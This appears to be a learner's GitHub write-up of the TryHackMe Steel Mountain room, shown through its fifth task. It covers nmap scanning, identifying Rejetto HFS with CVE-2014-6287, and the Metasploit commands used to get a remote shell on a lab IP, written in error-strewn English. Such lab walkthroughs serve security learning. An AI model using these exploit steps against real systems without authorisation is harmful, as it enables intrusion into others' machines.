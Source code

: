 # THM-SteelMountain
I lerarn how haced the Windows machine. I use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and I learn a new technique to get Administrator access.
< THM Steel Mountain room

#Task1 Open website in adress 10.10.135.167 in Virtaul Machine. I open page source preview to see name employee of the month: Bill Harper

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain1.png)


#Task2 I scan maschin the command: nmap -sV -sC 10.10.135.167 and I find running web serwer on 8080 port. And another serwer Rejetto HTTP File Server

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain2.png)


#Task3 I find in exploit-database exploit "Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)" with number CVE-2014-6287.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain3.png)


#Task4 I Use Metasploit to get an initial shell.
Command: 
msfconsole
search CVE-2014-6287
use 0
options
set RHOST 10.10.135.167
set RPORT 8080
exploit

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain4.png)

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain5.png)

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain6.png)


#Task5 now I have access to system bill and I must find Desktop and user flag. I use many tims command cd .. that  I been in directory C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs and I want go to Desktop. 

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/1256c3812750f39d31e97142cbf14427047690a3/SteelMountain7.png)

